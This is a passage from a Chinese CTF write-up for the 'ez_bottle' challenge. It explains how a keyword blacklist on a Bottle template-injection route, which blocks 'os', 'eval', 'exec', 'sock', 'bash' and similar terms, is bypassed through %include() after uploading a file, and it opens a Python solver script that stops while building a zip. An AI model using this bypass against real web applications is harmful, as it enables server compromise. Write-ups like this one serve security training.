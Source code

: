 ![](./images/image10.webp)

成功拿到flag

## ez_bottle

### 解题思路：

给了源码。

`@route('/view/<md5>/<filename>')` 这里有一个模板注入，但是做了黑名单。

`BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals","get", "open"]`

可以发现黑名单里并没有禁止我们使用 `%include()`

那么思路就是二次包含。先上传一个已知路径的文件，再 `include` 即可.

脚本是ai编写的。

```python
import requests
import zipfile
import os
import re
import sys


TARGET_URL = "http://challenge.xinshi.fun:35684"

def create_zip(filename, content):
    """Helper function to create a zip file with specific content."""
    with open(filename, "w") as f:
        f.write(content)
    zip_path = filename.replace('.txt', '.zip')
    with zipfile.ZipFile(zip_path, 'w') as zf:
        zf.write(filename)
```